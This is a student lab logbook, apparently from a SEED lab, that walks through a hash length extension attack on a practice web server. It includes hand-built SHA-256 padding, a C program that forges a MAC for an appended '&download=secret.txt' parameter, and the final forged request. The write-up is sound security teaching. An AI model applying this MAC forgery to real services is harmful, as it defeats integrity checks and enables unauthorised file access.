

# Hash Lenght Extension Attack

## Introduction

In this logbook we explore hash lenght extension attacks and learn how they work.

## Task 1

In this task we are challenged to send a benign request to the server in order to see how it responds.

The blueprint for our request is as follows:

```bash
http://www.seedlab-hashlen.com/?myname=<name>&uid=<need-to-fill>&lstcmd=1&mac=<need-to-calculate>
```

We then filled this with our information:

```bash
http://www.seedlab-hashlen.com/?myname=PedroSantos&uid=1001&lstcmd=1&mac=<need-to-calculate>
```

To calculate the mac value that we needed, we used the following command:

```bash
echo -n "123456:myname=PedroSantos&uid=1001&lstcmd=1" | sha256sum
```

The output is the mac that we wanted: 

```bash
fb16a39ad5a2d943df13ca1eba7660fbe2cda232799c6b12e54962b80f7cd084
```

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 1: Mac calculated using the terminal</figcaption>
    </figure>
</div>

We finally have the full request we need:

```bash
http://www.seedlab-hashlen.com/?myname=PedroSantos&uid=1001&lstcmd=1&mac=fb16a39ad5a2d943df13ca1eba7660fbe2cda232799c6b12e54962b80f7cd084
```

After checking on our browser we can see the confirmation that the request is valid.

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 2: Mac calculated using the terminal</figcaption>
    </figure>
</div>

## Task 2

In this task we are supposed to create a padding for this message: `1001:myname=PedroSantos&uid=123456&lstcmd=1`. Firstly we need to know the length of the padding, and as the string is 43 bytes long, the padding should be 64 - 43 = 21 bytes. Knowing that our string is 43 bytes long we need to add 43 * 8 = 344 (in hexadecimal: 0x158) to the end of our padding. This is how it turned out:

```bash
# Message:
"1001:myname=PedroSantos&uid=123456&lstcmd=1"
# Padding:
"\x80"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00"
"\x00\x00\x00\x00\x00\x00\x01\x58"
```

## Task 3

In this task we must generate a valid MAC without knowing the MAC key.

We altered the `length_ext.c` file to use our previously used MAC and the intended Extra Message (&download=secret.txt):

```c
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>

int main(int argc, const char*argv[]){
	int i;
	unsigned char buffer[SHA256_DIGEST_LENGTH];
	SHA256_CTX c;
	
	SHA256_Init(&c);
	for(i=0; i<64; i++)
		SHA256_Update(&c, "*", 1);
		
	// MAC of the original message M (padded)
	c.h[0] = htole32(0xfb16a39a);
	c.h[1] = htole32(0xd5a2d943);
	c.h[2] = htole32(0xdf13ca1e);
	c.h[3] = htole32(0xba7660fb);
	c.h[4] = htole32(0xe2cda232);
	c.h[5] = htole32(0x799c6b12);
	c.h[6] = htole32(0xe54962b8);
	c.h[7] = htole32(0x0f7cd084);
	
	// Append additional message
	SHA256_Update(&c, "&download=secret.txt", 20);
	SHA256_Final(buffer, &c);
	for(i = 0; i < 32; i++) {
		printf("%02x", buffer[i]);
	}
	printf("\n");
	return 0;
}
```
After compiling and running this file we receive the following output:

```bash
d8991b22cbfb969d440348cc9b39bc8e3a9a66dd1673f5f2e591a20f4cc04b14
```
We can now construct the full request, using the previously obtained request, padding and MAC:
```
http://www.seedlab-hashlen.com/?myname=PedroSantos&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%58&download=secret.txt&mac=d8991b22cbfb969d440348cc9b39bc8e3a9a66dd1673f5f2e591a20f4cc04b14
```
We now test this request on the browser and receive the following confirmation message:

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller">Figure 3: Success</figcaption>
    </figure>
</div>
